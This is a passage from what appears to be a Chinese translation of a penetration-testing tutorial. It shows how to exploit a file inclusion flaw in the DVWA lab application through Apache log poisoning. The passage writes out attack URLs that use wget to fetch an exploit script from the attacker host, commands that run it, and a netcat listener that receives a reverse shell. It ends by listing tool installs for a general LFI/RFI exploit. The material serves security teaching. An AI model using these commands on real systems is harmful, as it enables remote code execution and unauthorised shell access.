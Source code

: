 如图所示，我们将创建一个用 Python 编写的攻击文件，并在攻击者的机器上提供该文件。因为，对于当前示例，攻击者和受害者都在同一台机器上，所以 URL 为`http://192.168.1.102`。利用漏洞文件的内容如下所示：

![](img/7c01434c-6c79-4696-a69a-3724bb041b29.png)

下载攻击文件将完成攻击过程的第一步。第二步是执行它并返回侦听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们来看看这个动作：

1.  下载 Python 漏洞并将其保存在`/tmp`文件夹中：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`
2.  验证是否已成功保存：

![](img/30c5c1f9-b9d3-44b6-b144-48fc116ae178.png)

3.  在`444`：`nc -nlvp 4444`上启动`netcat`侦听器。
4.  启动调用`exp.py`脚本以连接回攻击者框的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

现在让我们看看我们的侦听器是否已获得 shell：

![](img/67be60de-978e-41d0-9b6e-ca8163c01804.png)

正如我们从前面的截图中看到的，我们已经成功地获得了外壳。

# 开发利用开发（LFI+RFI）

到目前为止，我们已经研究了如何手动利用 LFI 漏洞。让我们继续并尝试开发一个通用漏洞，该漏洞将利用此应用和其他相同应用的 LFI 漏洞。在本节中，我们将看到如何编写一个令人敬畏的漏洞，利用 DVWA 应用中的 RFI 和 LFI 漏洞。虽然此漏洞是为 DVWA 应用编写的，但我已尝试使其通用化。通过某些调整，我们还可以在可能存在 LFI 和 RFI 漏洞的其他应用中尝试。

让我们安装先决条件：

```
pip install BeautifulSoup
pip install bs4
pip install selenium
sudo apt-get install libfontconfig
apt-get install npm
npm install ghostdriver
wget https://bitbucket.org/ariya/phantomjs/downloads/phantomjs-2.1.1-linux-x86_64.tar.bz2
tar xvjf phantomjs-2.1.1-linux-x86_64.tar.bz2
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/bin/
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/local/bin/
```
